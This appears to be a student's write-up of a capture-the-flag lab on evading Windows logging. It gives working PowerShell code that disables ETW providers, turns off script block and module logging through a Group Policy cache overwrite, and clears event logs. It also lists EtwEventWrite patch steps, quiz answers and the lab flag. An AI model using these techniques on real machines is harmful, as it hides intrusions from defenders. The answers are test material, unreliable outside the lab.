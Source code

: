 # Evading Logging and Monitoring - Medium

1. [Event Tracing](#event-tracing)
2. [Approaches to Log Evasion](#approaches-to-log-evasion)
3. [Tracing Instrumentation](#tracing-instrumentation)
4. [Reflection for Fun and Silence](#reflection-for-fun-and-silence)
5. [Patching Tracing Functions](#patching-tracing-functions)
6. [Providers via Policy](#providers-via-policy)
7. [Group Policy Takeover](#group-policy-takeover)
8. [Abusing Log Pipeline](#abusing-log-pipeline)
9. [Real World Scenario](#real-world-scenario)

## Event Tracing

* Primary target for attacker is the event logs, managed and controlled by ETW (Event Tracing for Windows).

* ETW components:

  * Controllers - build & configure sessions

  * Providers - generate events

  * Consumers - interpret events

* Event IDs are a core feature of Windows logging; events are sent & transferred in XML format.

```markdown
1. What ETW component will build and configure sessions? - controllers

2. What event ID logs when a user account was deleted? - 4726
```

## Approaches to Log Evasion

* It is typical for a modern system to employ log forwarding; so deleting logs from host machine would not remove logs, instead it would be tracked by ETW.

* Most published evasion techniques target ETW components since those allow attacker most control over the tracing process.

```markdown
1. How many total events can be used to track event tampering? - 3

2. What event ID logs when the log file was cleared? - 104
```

## Tracing Instrumentation

* In ETW, events originate from providers; controllers will determine where data is sent and how it is processed in sessions; and consumers will save/deliver logs to be interpreted & analyzed.

* Techniques to target components:

  * Provider - PSEtwLogProvider Modification, Group Policy Takeover, Log Pipeline Abuse, Type Creation

  * Controller - Patching EtwEventWrite, Runtime Tracing Tampering

  * Consumers - Log Smashing, Log Tampering

## Reflection for Fun and Silence

* PowerShell reflection:

  * Obtain .NET assembly for PSEtwLogProvider:
  
  ```ps
  $logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
  ```
  
  * Store null value for etwProvider field:
  
  ```ps
  $etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
  ```
  
  * Set the field for m_enabled to previously stored value:
  
  ```ps
  [System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
  ```

```markdown
1. What reflection assembly is used? - PSEtwLogProvider

2. What field is overwritten to disable ETW? - m_enabled
```

## Patching Tracing Functions

* ETW is written from the function ```EtwEventWrite```; to identify 'patch points' (returns), we can view disassembly of the function.

* ETW patching:

  * Obtain handle for ```EtwEventWrite```
  * Modify memory permissions of function
  * Write opcode bytes to memory
  * Reset memory permissions of function
  * Flush instruction cache

```markdown
1. What is the base address for the ETW security check before it is patched? - 779f245b

2. What is the non-delimited opcode used to patch ETW for x64 architecture? - c21400
```

## Providers via Policy

* ETW disables some features by default due to the amount of logs they can create; these can be enabled by modifying the GPO (Group Policy Object) settings of their parent policy.

```markdown
1. How many total events are enabled through script block and module providers? - 2

2. What event ID will log script block execution? - 4104
```

## Group Policy Takeover

* Group policy takeover:

  * Obtain group policy settings from utility cache
  * Modify generic provider to 0
  * Modify invocation or module definition

```markdown
1. What event IDs can be disabled using this technique? - 4103,4104

2. What provider setting controls 4104 events? - EnableScriptBlockLogging
```

## Abusing Log Pipeline

* Abusing log pipeline:

  * Obtain the target module:
  
  ```ps
  $module = Get-Module Microsoft.PowerShell.Utility
  ```
  
  * Set module execution details to ```$false```:
  
  ```ps
  $module.LogPipelineExecutionDetails = $false
  ```
  
  * Obtain module snap-in:
  
  ```ps
  $snap = Get-PSSnapin Microsoft.PowerShell.Core
  ```
  
  * Set snap-in execution details to ```$false```:
  
  ```ps
  $snap.LogPipelineExecutionDetails = $false
  ```

```markdown
1. What type of logging will this method prevent? - module logging

2. What target module will disable logging for all Microsoft utility modules? - Microsoft.PowerShell.Utility
```

## Real World Scenario

* Script for given scenario:

```ps
#disable GPO settings by running the GPO-bypass script on Desktop

$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

```ps
#now we need to remove logs

Get-EventLog -List
#shows log types

Clear-EventLog "Windows PowerShell"

#if you are not getting flag
#you can reverse-engineer agent.exe to get flag
```

```markdown
1. Enter the flag obtained from the desktop after executing the binary. - THM{51l3n7_l1k3_4_5n4k3}
```
